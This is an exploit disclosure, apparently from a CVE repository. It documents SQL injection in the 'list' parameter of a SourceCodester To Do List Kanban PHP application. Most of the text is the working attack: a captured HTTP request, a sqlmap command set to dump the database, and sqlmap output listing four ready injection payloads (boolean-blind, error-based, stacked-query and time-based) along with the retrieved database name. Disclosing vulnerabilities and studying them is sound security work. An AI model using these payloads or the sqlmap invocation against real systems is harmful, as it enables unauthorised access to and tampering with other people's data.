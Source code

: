 # To Do List App - SQL Injection
+ **Exploit Title:**  To Do List App - SQL Injection
+ **Date:** 2024-26-03
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17259/todo-list-kanban-board-using-php-and-mysql-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17259&title=Todo+List+in+Kanban+Board+Using+PHP+and+MySQL+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Repoerted, waiting for CVE number

## Description:
To Do List App 1.0 allows SQL Injection via the 'list' parameter in "/todo-list-in-kanban-board/endpoint/delete-todo.php?list=5". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/todo-list-in-kanban-board/"
+ Select any resident and press the delete-list button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /todo-list-in-kanban-board/endpoint/delete-todo.php?list=5 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'list' parameter to dump the database.
```
sqlmap -r r.txt -p list --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: list (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: list=5' RLIKE (SELECT (CASE WHEN (5950=5950) THEN 5 ELSE 0x28 END))-- pCgV

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: list=5' AND EXTRACTVALUE(1256,CONCAT(0x5c,0x7178706a71,(SELECT (ELT(1256=1256,1))),0x71706a6a71))-- gqeJ

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: list=5';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: list=5' AND (SELECT 8378 FROM (SELECT(SLEEP(5)))JsKw)-- NdVF
---
[07:23:43] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[07:23:43] [INFO] fetching current database
[07:23:43] [INFO] retrieved: 'todo_kanban_db'
current database: 'todo_kanban_db'
```
+ current database: `todo_kanban_db`

![Ekran görüntüsü 2024-03-26 142845](https://github.com/BurakSevben/CVEs/assets/117217689/f3a2ad6f-70a5-4abd-83e4-acbb6f1553a0)
